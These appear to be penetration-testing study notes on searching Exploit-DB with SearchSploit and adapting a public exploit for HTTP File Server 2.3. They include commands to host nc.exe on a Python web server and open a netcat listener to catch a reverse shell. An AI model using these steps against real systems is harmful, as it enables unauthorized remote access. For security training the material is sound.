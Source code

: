 
**Searching for exploits** 

After identifying a potential vulnerability with a target or service running on a target. 

##### Searching public available exploits 
- searching online is risky  (exploit code can be malicious)
- trustworthy databases: Exploit-db & Rapid7
- google search: `   [vulnerability] site:Rapid7.com`
- Github
- packet storm 



#####  Searching with SearchSploit
- Exploit-db comes pre-packed with kali 
- Exploit-db can be queried using SearchSploit 
  

#####  How to use searchsploit  
	- sudo apt-get update && sudo apt-get install exploit-db -y
	- ls -al /usr/share/exploitdb
	- ls -al /usr/share/exploitdb/exploits 

- exploit-db is updated daily  so you need to update using -u: `searchsploit -u `
- `searchsploit` 
- `searchsploit service` 
- `searchsploit service version`
- `searchsploit -m exploit_id-number`
- `searchsploit -m /path `
  copy an exploit in to your current working directory?
- `ls -al `--> `vim exploit_file`
- `searchsploit -c keyword`
- `searchsploit -t title_keyword`
- `searchsploit -e  "keywords/titel"`
- `searchsploit -e  "keywords/titel"`` | grep -e "match with"`
- `searchsploit remote Operating_system service ` 
  search for exploits that match parameter 
- `searchsploit remote windows buffer`
- `searchsploit remote linux service`
- `searchsploit remote wordpress | grep -e "webapps"`
- `remote windows smb -w 
  list online links to download and see exploit code
- `sudo cp /usr/share/exploitdb/exploits/windows/remote/42031.py .`  
  copy exploit manually 


----

### Fixing exploits 
Public exploit code sneeds to be adjusted to own requirements (port, ip etc)

- `nmap -sV ip` 
- `searchsploit HTTP File Server 2.3`
- `searchsploit -m exploit_id` 
  make copy of exploit
- `vim exploit_file`
  Analyze exploit on high level , and check if you need to modify the code (adding ip and port, nc executable)
	  - netcat executable: `cp /usr/share/windows-resources/binaries/nc.exe `
	    
3 windows: 
- (terminal 1) 	running exploit itself - launch exploit
	- ` file.py target_ _ip and service_port`
- (terminal 2) setup webserver to host netcat executable 
	- `python -m SimpleHTTPServer 80` 
- (terminal 3)   netcat listner will be running, obtain command shell session
	- `nc -nvlp 1234`


**Identifying and Preparing Exploits:**
1. Search for available exploits related to the target service (e.g., HTTP File Server 2.3):
	    - `searchsploit HTTP File Server 2.3`
1. If needed, display the details of a specific exploit and make a copy of it (replace `exploit_id` with the actual exploit ID):
	    - `searchsploit -m exploit_id`
2. Copy the netcat (nc.exe) executable to your working directory:
	    - `cp /usr/share/windows-resources/binaries/nc.exe .`
      
**Setting Up Exploit:** 
4. Open the exploit file using a text editor (e.g., Vim):
	- `vim exploit_file`
	 Analyze the exploit code at a high level and check if any modifications are required. This may involve adding the target IP address and service port, as well as specifying the path to the netcat executable if necessary.

**Setting Up Webserver:** 
6. In Terminal 2, set up a web server to host the netcat executable:
	- `python -m SimpleHTTPServer 80
	  `
**Listening for Incoming Connections:** 
7. In Terminal 3, start a netcat listener to capture the shell session:
	- `nc -nvlp 1234`
	This reordering ensures that the identification and preparation of exploits take place before the actual exploit execution, and the netcat setup is done before listening for incoming connections.
	
**Run Exploit**
In Terminal 1, run the exploit script with the target IP address and service port:
- `python exploit_file target_ip service_port`

